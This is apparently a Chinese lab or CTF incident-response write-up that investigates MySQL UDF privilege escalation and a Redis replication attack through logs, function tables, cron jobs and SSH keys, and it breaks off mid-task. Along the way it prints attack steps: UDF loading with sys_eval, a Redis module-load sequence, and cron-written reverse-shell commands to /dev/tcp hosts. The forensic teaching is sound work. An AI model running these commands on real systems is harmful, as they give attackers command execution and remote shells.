UDF 提权是利用 MySQL 的用户定义函数进行权限提升的攻击方法。攻击者可以编写恶意的 UDF 插件，并将其加载到 MySQL 中，从而执行系统级别的命令。

使用过 MySQL 的人都知道，MySQL 有很多内置函数提供给使用者，包括字符串函数、数值函数、日期和时间函数等，给开发人员和使用者带来了很多方便。MySQL 的内置函数虽然丰富，但毕竟不能满足所有人的需要，有时候我们需要对表中的数据进行一些处理而内置函数不能满足需要的时候，就需要对 MySQL 进行一些扩展，幸运的是，**MySQL 给使用者提供了添加新函数的机制，这种使用者自行添加的 MySQL 函数就称为 UDF (User Define Function)。**

#### UDF 提权有哪些条件

- 获取 mysql 控制权限：知道 mysql 用户名和密码，并且可以远程登录（即获取了 mysql 数据库的权限）
- mysql 具有写入文件的权限：mysql 有写入文件的权限，即 secure_file_priv 的值为空

#### 什么情况下需要 UDF 提权

- 拿到了 mysql 的权限，但是没拿到 mysql 所在服务器的任何权限，通过 mysql 提权，将 mysql 权限提升到操作系统权限

所以到这里我们就可以确定黑客是利用UDF进行提权攻击的了，那么接下来我们该想想，如果是UDF提权的话，那么黑客会在哪里留下痕迹呢?

- 在进行 UDF (User Defined Function) 提权时，攻击者通常会将恶意共享库文件放在 MySQL 插件目录中。这个目录的默认路径通常是 /usr/lib/mysql/plugin/，/usr/lib/mysql/plugin/ 目录是MySQL用来存放用户定义函数(UDF, User Defined Function)动态链接库文件的地方。一**个名为udf.so的文件出现在此目录下，表明有人安装了一个自定义函数到MySQL服务器中。**（一般来说就是这个目录，没人闲着会去移动）


那为什么攻击者会使用 /usr/lib/mysql/plugin/ 目录？

默认插件目录：

/usr/lib/mysql/plugin/ 是 MySQL 的默认插件目录，MySQL 有权限加载和执行该目录中的共享库文件。

- 加载插件的需求：

插件必须放置在 MySQL 的插件目录中，才能被 MySQL 识别和加载。攻击者通过将恶意 .so 文件放入该目录，实现提权。

- 权限管理：

由于 MySQL 服务运行时需要访问插件目录，通常该目录的权限设置相对宽松，允许 MySQL 服务有读写权限。
所以我们直接进入目录



这里可以看到有udf.so文件，所以黑客确实是通过UDF提权的

直接把目录md5加密后提交flag就可以了

扩展一下典型的UDF提权攻击

#### 典型的 UDF 提权攻击步骤：

- 编写恶意 UDF 插件：攻击者编写一个 .so 文件，该文件包含恶意代码。


- 上传恶意插件：利用 MySQL 的文件操作功能将该文件上传到服务器上的某个路径。


SELECT '' INTO OUTFILE '/path/to/your/udf.so';

- 创建 UDF 函数：使用 CREATE FUNCTION 命令将这个共享库文件加载为 MySQL 的 UDF 函数。


CREATE FUNCTION do_system RETURNS INTEGER SONAME 'udf.so';

- 执行命令：调用这个 UDF 函数执行系统命令。


SELECT do_system('id');

#### 检查和防护UDF

- 检查 UDF 函数：查看是否存在异常的 UDF 函数。


SELECT * FROM mysql.func;

- 限制 secure_file_priv：将 secure_file_priv 设置为一个特定的路径，限制 MySQL 文件操作的范围。


secure_file_priv = /var/lib/mysql-files

- 移除不需要的 UDF 函数：删除所有可疑的 UDF 函数。


DROP FUNCTION IF EXISTS do_system;

- 权限控制：严格控制数据库用户的权限，避免赋予不必要的权限，特别是文件操作和创建函数的权限。


- 日志监控：定期检查 MySQL 日志文件，关注异常的文件操作和函数创建活动。


### 问题4:.黑客获取的权限

既然黑客已经获得了权限，那他肯定会在库中写下一些自定义函数，我们直接去库里面找一下新增的函数就可以了

可以先查看一下进程



这里可以看到mysql服务是正在进行的，**使用了指定的配置目录、数据目录和插件目录，发现目录就是UDF使用提取的目录，暂时也不是很确认，我们可以进入数据库进行分析进一步确认；**

#### UDF 提权的典型痕迹

- 异常的 .so 文件：（上面也有提到）


检查这些目录下是否有最近创建的 .so 文件，特别是名字看起来可疑或不符合系统文件命名规范的文件。

- MySQL 日志：

检查 MySQL 日志文件（如 mysql.log 或 error.log）中是否有异常的文件操作记录或 CREATE FUNCTION 语句。

- MySQL 函数表：

检查 mysql.func 表中是否有异常的 UDF 函数。
SELECT * FROM mysql.func;
我们进入数据库，并使用命令

```
SELECT * FROM mysql.func;
```

这里可以检查**`mysql.func` 表中是否有异常的 UDF 函数，同样这个表会查询到新增函数**



这里可以看到有一个sys_eval函数，**所以sys_eval就是黑客新增的函数，接着题目让我们提交whoami后的值所以这里我们直接查询即可**

```
select sys_eval('whoami');
```



- **`whoami` 命令**：（题目要求）
  - `whoami` 是一个 Unix/Linux 命令，用于返回当前执行命令的用户名称。
  - 在 MySQL 中调用 `sys_eval('whoami')` 实际上是让 MySQL 服务器在操作系统上执行 `whoami` 命令，并返回结果。
  - 当 MySQL 执行 `select sys_eval('whoami');` 时，它调用 `UDF sys_eval`，传入参数 whoami。
  - sys_eval 函数执行 whoami 命令，并捕获其输出。
  - MySQL 返回 whoami 命令的输出，即运行 MySQL 服务器进程的用户名称。

## 第二章日志分析-redis应急响应

### **什么是redis**

**Redis 是一个开源的、内存中的数据结构存储系统，用作数据库、缓存和消息代理。它支持多种数据结构，如字符串、散列、列表、集合、有序集合、位图、HyperLogLogs 和地理空间索引半径查询**

### 关于Redis的攻击手法有

- 未授权访问：


缺乏身份验证：默认情况下，Redis 不要求身份验证，攻击者可以直接连接到 Redis 实例并执行任意命令。

开放的网络接口：如果 Redis 监听在一个公共的 IP 地址上，攻击者可以通过网络远程访问 Redis 实例。

- 远程代码执行：

CONFIG 命令：攻击者可以利用未授权访问，通过 CONFIG 命令修改配置，例如设置 dir 和 dbfilename 来写入恶意文件，从而在目标服务器上执行代码。

模块加载：Redis 允许加载自定义模块，如果没有进行适当的访问控制，攻击者可以加载恶意模块并执行任意代码。

- 持久化攻击：

持久化文件劫持：攻击者可以修改 Redis 的持久化配置（如 RDB 或 AOF 文件），然后写入恶意数据，当 Redis 重启时执行恶意操作。

恶意数据注入：通过注入恶意数据到持久化文件中，攻击者可以在数据恢复时触发恶意行为。

- 拒绝服务攻击（DoS）：

资源耗尽：通过发送大量请求或存储大量数据，攻击者可以耗尽 Redis 服务器的内存或 CPU 资源，导致服务不可用。

大键值操作：操作超大键值（如大列表或集合）可能会导致 Redis 性能下降，甚至崩溃。

- 数据篡改和泄露：

数据窃取：未经授权的访问可以导致敏感数据的泄露。
数据篡改：攻击者可以修改或删除关键数据，影响系统的正常运行。

### Redis 的一些关键特性和用途：

关键特性：

- 高性能：


由于 Redis 是内存数据库，数据存储和读取的速度非常快。每秒可以执行数百万次操作。

- 多种数据结构：

Redis 支持多种数据结构，使其非常灵活，能够适应不同类型的应用场景。

支持的结构包括：字符串（Strings）、列表（Lists）、集合（Sets）、有序集合（Sorted Sets）、哈希（Hashes）、位图（Bitmaps）等。

- 持久化：

虽然 Redis 是内存数据库，但它支持将数据持久化到磁盘上，以防数据丢失。

两种持久化方式：RDB（快照）和 AOF（追加文件）。

- 复制（Replication）：

Redis 支持主从复制，可以将数据从一个 Redis 服务器复制到多个从服务器，提供数据冗余和高可用性。

- 高可用性：

Redis 通过 Redis Sentinel 提供高可用性。Sentinel 监控 Redis 主从实例，并在主服务器不可用时自动进行故障转移。

- 集群（Cluster）：

Redis Cluster 提供自动分片和高可用性，允许 Redis 数据分布在多个节点上。

- 事务：

支持事务，可以保证一组命令的原子性。

- 脚本：

Redis 支持 Lua 脚本，使得可以在 Redis 服务器端执行复杂的逻辑。

### 基本的常见用途：

- 缓存：


由于 Redis 的高性能，常被用作缓存来存储频繁访问的数据，减少数据库负载和提高应用响应速度。

- 会话存储：

Redis 可以用来存储用户会话数据，如网站的用户登录会话等。

- 消息队列：

Redis 支持发布/订阅、列表和有序集合，因此可以用作简单的消息队列系统。

- 实时分析：

Redis 可以用于实时数据分析和统计，如计数器、唯一用户统计等。

- 排行榜/计分板：

由于有序集合的支持，Redis 非常适合实现排行榜和计分板功能。

- 地理空间数据：

Redis 提供了内置的地理空间数据类型和命令，可以处理和查询地理位置数据。
Redis 的强大功能和灵活性使其在现代应用中得到了广泛的应用，包括社交网络、实时分析、缓存、会话管理和队列处理等领域。

### 问题1：通过本地 PC SSH到服务器并且分析黑客攻击成功的 IP 为多少

Redis服务器日志存放位置:

```
/var/log/redis/redis.log
```

**Redis 日志文件通常用于记录 Redis 服务器的运行情况、错误信息和其他重要事件。这些日志文件默认存放在 `/var/log/` 目录下，但实际位置可以通过 Redis 配置文件 `redis.conf` 中的 `logfile` 参数进行配置**

我们先查询一下redis版本号

```
redis-cli INFO | grep redis_version
```



当然我们在日志中也是可以看到版本号的



对于 Redis 5.0.1，未授权访问 是最常见且可能性最大的漏洞，尤其是在 Redis 默认配置下没有设置密码的情况下。攻击者可以通过未授权访问执行以下操作：

读取和修改数据：攻击者可以读取 Redis 数据库中的所有数据，甚至可以删除或修改数据。
远程代码执行：攻击者可以利用 CONFIG 命令修改配置文件来写入恶意代码，从而在目标服务器上执行任意代码。
持久化恶意代码：通过修改 Redis 的持久化配置，攻击者可以在服务器重启时执行恶意操作。

接下来我们分析日志

cat一下日志，发现日志内容并不算很多，我们可以慢慢看一下，会发现一个ip192.168.100.13出现了很多次



关键日志信息：

- MASTER <-> REPLICA sync started: 表示 Redis 副本（REPLICA）尝试与主服务器（MASTER）进行同步。

- Error condition on socket for SYNC: Connection refused: 表示同步连接尝试失败，连接被拒绝。

所以这里可以看到这个ip在频繁的与服务器同步连接，但是都连接失败，说明这个ip在进行爆破，不过这个不是我们问题的ip

我们继续分析

我这里的话自己检索了一下ip

```
cat redis.log | grep 192.168
```



这里可以看到有三个ip，我就返回去逐个分析了



这里可以看到192.168.100.20的

```
419:S 31 Jul 2023 05:34:33.786 * Connecting to MASTER 192.168.100.20:8888
419:S 31 Jul 2023 05:34:33.786 * MASTER <-> REPLICA sync started
419:S 31 Jul 2023 05:34:33.788 * Non blocking connect for SYNC fired the event.
419:S 31 Jul 2023 05:34:35.192 * Master replied to PING, replication can continue...
419:S 31 Jul 2023 05:34:35.194 * Trying a partial resynchronization (request 7a73a1a4297a16c50d8465b0cc432444f0e5df71:1).
419:S 31 Jul 2023 05:34:35.195 * Full resync from master: ZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZ:1
419:S 31 Jul 2023 05:34:35.195 * Discarding previously cached master state.
419:S 31 Jul 2023 05:34:35.195 * MASTER <-> REPLICA sync: receiving 48040 bytes from master
419:S 31 Jul 2023 05:34:35.197 * MASTER <-> REPLICA sync: Flushing old data
419:S 31 Jul 2023 05:34:35.197 * MASTER <-> REPLICA sync: Loading DB in memory
419:S 31 Jul 2023 05:34:35.197 # Wrong signature trying to load DB from file
419:S 31 Jul 2023 05:34:35.197 # Failed trying to load the MASTER synchronization DB from disk
```

**从这部分日志中，可以看到与192.168.100.20成功建立连接并进行同步。尽管尝试加载同步数据时出现错误，但连接和同步过程已经开始，这意味着攻击者已经能够通过这种连接尝试植入恶意代码或进一步操控系统。**

加载恶意模块：

```
419:S 31 Jul 2023 05:34:37.205 * Module 'system' loaded from ./exp.so
```

最后，从日志中可以看到恶意模块exp.so被成功加载，这通常是黑客用来执行进一步攻击的手段。

搬来了大佬的图片解析


这里可以看到有建立主从复制的ID加载exp.so文件模块并进行持久化保存，所以我们猜测是使用了redis主从复制攻击，而且exp.so也经常用于主从复制攻击

#### redis主从复制攻击

Redis的主从复制是用来实现数据冗余和提高可用性的一种机制。

1、从节点发送同步请求：从节点通过发送SYNC或PSYNC命令请求与主节点同步数据。

2、全量同步：如果从节点是首次同步或与主节点的复制偏移量不匹配，主节点会执行BGSAVE命令创建一个RDB文件，并将其发送给从节点。从节点接收RDB文件并加载到内存中。

3、增量同步：在全量同步之后，主节点会将其缓冲区中的写命令持续发送给从节点，以保证数据一致性。
我们用靶机打一下试试

```
#连接靶机本地redis
打开终端并输入命令 redis-cli
#设置文件路径为/tmp/
config set dir /tmp/ 
#设置数据库文件名为：exp.so
config set dbfilename exp.so 
#设置主redis地址为 vpsip，端口为 port
slaveof vpsip port 
module load /tmp/exp.so
system.exec 'bash -i >& /dev/tcp/ip/port 0>&1'
```



然后我们查看一下日志



这里可以看到我们的exp2.so已经被记录到日志中，ip也是对的上的，所以这个exp.so一定就是黑客上传的恶意文件了

### 问题2:通过本地 PC SSH到服务器并且分析黑客第一次上传的恶意文件

因为我们上面进行了一次攻击操作，也知道了这个exp.so就是我们想要找的恶意文件，但我们还是学习一下常规的人工排查方法去做这道题

题目让我们找到黑客第一次上传的恶意文件，一般来说我们都会先去翻翻日志，看看有什么可疑的活动，接着筛选可疑命令，搜索如 CONFIG SET、SLAVEOF、MODULE LOAD 等命令，这些命令可能被黑客用来修改 Redis 的配置或者加载恶意模块。

```
sudo grep ‘CONFIG SET’ /var/log/redis.log
sudo grep ‘SLAVEOF’ /var/log/redis.log
sudo grep ‘MODULE LOAD’ /var/log/redis.log
sudo grep ‘config set’ /var/log/redis.log
sudo grep ‘slaveof’ /var/log/redis.log
sudo grep ‘module load’ /var/log/redis.log
```



简单分析一下；

根据日志，攻击者在多次执行 `SLAVEOF` 命令后，通过修改 Redis 的主从复制配置，将受害者的 Redis 实例配置为从属服务器，从而将恶意数据或命令同步到目标服务器。

具体分析；

- 05:33:15 - REPLICAOF 192.168.100.13:8888：


攻击者首次执行 SLAVEOF 命令，将 Redis 配置为从属服务器，指向 192.168.100.13:8888。

攻击者可能尝试与其控制的服务器建立连接，以同步数据。

- 05:34:03 - REPLICAOF 192.168.31.55:8888：

第二次执行 SLAVEOF 命令，将从属服务器的地址更改为 192.168.31.55:8888。

这可能是因为与 192.168.100.13:8888 的连接失败，攻击者更换了控制服务器地址。

- 05:34:33 - REPLICAOF 192.168.100.20:8888：

第三次执行 SLAVEOF 命令，将从属服务器的地址再次更改为 192.168.100.20:8888。

这可能是攻击者的第三个尝试，试图找到一个能够成功连接的控制服务器。

- 05:34:37 - MASTER MODE enabled：

最终攻击者将 Redis 配置为主服务器模式，说明他们已经成功掌控了 Redis 实例。
这一点通常是在成功与恶意服务器同步后，攻击者控制 Redis 实例所进行的操作。
我们在分析 Redis 日志的过程中，尽管能够识别出攻击者的行为（如多次尝试使用 SLAVEOF 命令），我们仍需要找到黑客上传的具体恶意文件。通常，黑客上传的文件可能包括恶意的 Redis 模块、恶意脚本等，这些文件会在 Redis 的数据目录或临时目录中生成。
所以这里我们还需要进一步检查 Redis 日志中提到的模块；

```
grep "Module 'system' loaded from" /var/log/redis/redis.log
```

运行结果

```
419:S 31 Jul 2023 05:34:37.205 * Module ‘system’ loaded from ./exp.so
```

我们再返回去看日志(直接搬的大佬的，懒得截图了)


1. **多次的`SLAVEOF` 命令**：
   - 攻击者首先将 Redis 配置为从属服务器指向 `192.168.31.55:8888`，然后又指向 `192.168.100.20:8888`。这可能是为了多次尝试连接攻击者的控制服务器。
2. **模块卸载**：
   - 在 `05:34:37.231` 时，模块被卸载。这可能是攻击者在执行完恶意操作后卸载模块以掩盖痕迹。
3. **多次保存数据库**：
   - 数据库在 `05:42:00` 和 `05:42:42` 时被保存到磁盘。这可能表明攻击者试图将恶意数据持久化。
4. **加载恶意模块**：
   - 日志显示在 `05:34:37.205` 时加载了名为 `system` 的模块（从 `./exp.so` 路径）。这很可能是一个恶意模块。

那问题又来了

#### 为什么 SLAVEOF 算作恶意行为？

利用漏洞：通过 SLAVEOF 命令，攻击者可以让目标 Redis 实例连接到他们控制的主服务器，从而将恶意数据同步到目标服务器上。
模块加载：在同步过程中，攻击者可以利用模块加载功能，将恶意模块（如 exp.so）加载到目标服务器上，从而执行任意代码或篡改数据。

#### 那我们应该如何找到恶意文件呢?

sudo find -name exp.so

不过我们可以发现，我们上面的命令都是需要管理员权限才能执行的，不然的话是找不到命令的

### 问题3:通过本地 PC SSH到服务器并且分析黑客反弹 shell 的IP 为多少

想要知道怎么找到反弹shell，我们得先了解一下redis未授权攻击反弹shell

攻击手法

```
redis-cli -h 192.168.100.13 #连接
 
redis flushall #清除所有键值
 
config set dir /var/spool/cron/crontabs/ #设置保存路径
 
config set dbfilename shell #保存名称
 
set xz “\n * bash -i >& /dev/tcp/192.168.100.13/7777 0>&1\n” #将反弹shell写入xz键值
 
save #写入保存路径的shell文件
```

我们先看一下开放端口

```
netstat -lanpt
```



发现并没有什么端口是web的，判断黑客不是通过写入 webshell 反弹的 shell

那我们看一下定时任务

```
crontab -l
```



```
/bin/sh -i >& /dev/tcp/192.168.100.13/7777 0>&1
```

这段命令是一种用于创建反向Shell连接的技术

分析一下

- `/bin/sh -i`: 启动一个交互式Shell。
- `>&`: 重定向标准输出和标准错误输出。
- `/dev/tcp/192.168.100.13/7777`: 通过TCP连接到IP地址`192.168.100.13`的端口`7777`。在一些Unix-like系统中，`/dev/tcp/host/port`是一种特殊的文件描述符，通过它可以实现网络连接。
- `0>&1`: 将标准输入重定向到标准输出。

所以直接把这个ip交了就可以了

### 问题4:通过本地 PC SSH到服务器并且溯源分析黑客的用户名，并且找到黑客使用的工具里的关键字符串

这个的话就相对简单了，就是分析ssh登录情况

通常 SSH 登录的日志记录在系统的安全日志文件中，但是，SSH（Secure Shell）提供了两种主要的登录验证方式；

1. 密码验证（Password Authentication）

工作原理：

用户在登录时需要提供用户名和密码。
服务器接收用户名和密码后，验证它们是否匹配预先存储的凭证。
如果用户名和密码正确，用户即可登录服务器。
2. 公钥验证（Public Key Authentication）

工作原理：

用户生成一对 SSH 密钥对，包括私钥和公钥。
公钥被上传并存储在目标服务器的用户账户下的 ~/.ssh/authorized_keys 文件中。
用户在登录时使用其私钥进行身份验证。
服务器通过匹配用户提供的私钥和存储的公钥来验证用户身份。
如果匹配成功，用户即可登录服务器。所以我们可以从两点看出；

- Redis 配置：黑客利用 Redis 的未授权访问或其他漏洞，将自己的公钥写入了服务器的 ~/.ssh/authorized_keys 文件中，从而可以使用 SSH 公钥验证进行登录。

- 登录日志：SSH 登录日志通常会显示使用的验证方式。虽然在提供的日志中没有明确显示公钥验证，但结合 Redis 被利用的情况，可以推测黑客可能通过这种方式获取了访问权限。

所以我们的主机上往往都会写入ssh密钥，那我们先查一下ssh文件

```
///查看目录有没有ssh文件
ls -la
//进入ssh文件
cd .ssh
//查看公钥文件
cat authorized_keys
```



最后可以看到用户名是xj -test-user

搜一下



然后我搜寻了好半天才找到flag



### 问题5:通过本地 PC SSH到服务器并且分析黑客篡改的命令

这个的话工程量就比较大了

我们一步步来吧

1. **先看命令历史**

   ```
   history
   ```

   没什么收获

2. **检查系统路径中的命令**

   ```
   cd /usr/bin
   ls -la
   ```

